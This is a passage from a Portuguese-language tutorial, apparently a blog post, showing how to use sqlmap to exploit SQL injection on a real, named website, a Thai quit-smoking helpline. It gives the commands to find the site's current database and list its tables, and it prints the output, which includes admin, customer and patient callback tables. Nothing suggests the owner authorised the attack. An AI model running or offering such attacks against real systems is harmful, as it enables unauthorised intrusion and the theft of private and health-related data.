 ```
python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1
```

Ele vai realizar uma série de testes. Antes de começar cada teste ele vai te perguntar se você quer ou não que ele faça, siga fazendo as sugestões dele. [Y/n] para Sim, [y/N] para não.

Como já sabemos muito bem que esse site está vulnerável, não precisamos disso.

Vamos agora determinar qual é o nome da database usada pelo site:

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 --current-db -v 0
```

- Obs: O parâmetro -v 0 é legal para diminuir a "verbosidade" do sqlmap. Polui menos o shell.
- Obs2: Com a opção --current-db o sqlmap nos retornará o esperado nome da database. Isso é importante para o próximo passo, onde uma vez de posse do nome do banco, o sqlmap vai conseguir fazer as consultas ao SGDB de forma mais apropriada.


Ele vai te retornar algo como isto:

```
     web application technology: Apache 2, PHP 5.2.17
     back-end DBMS: MySQL 5.0.11
     current database:    'admin_nd'
```

Vamos agora enumerar as tabelas do banco admin_nd:

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 -D admin_nd --tables -v0
```

Obs: Perceba que com -D eu especifico a database, e --tables dizemos ao SQLMap que queremos que ele nos mostre as tabelas contidas na database admin_nd;

Ele vai nos retornar algo como isto:

```
     web application technology: Apache 2, PHP 5.2.17
     back-end DBMS: MySQL 5.0.11
     Database: admin_nd
     [20 tables]
     +--------------------------+
     | admin              
     | admin_module  
     | callback_patientschronic
     | callback_recipients     
     | captcha
     | contact
     | contact_data
     | customer     
     | email           
     | news           
     | refer            
     | result_patientschronic
     | result_recipients      
     | u_refer_case     
     | u_refer_follow    
     | u_refer_member
     | uquit                
     | uquit_email      
     | urefer_email     
     | vdo                 
     +--------------------------+
```
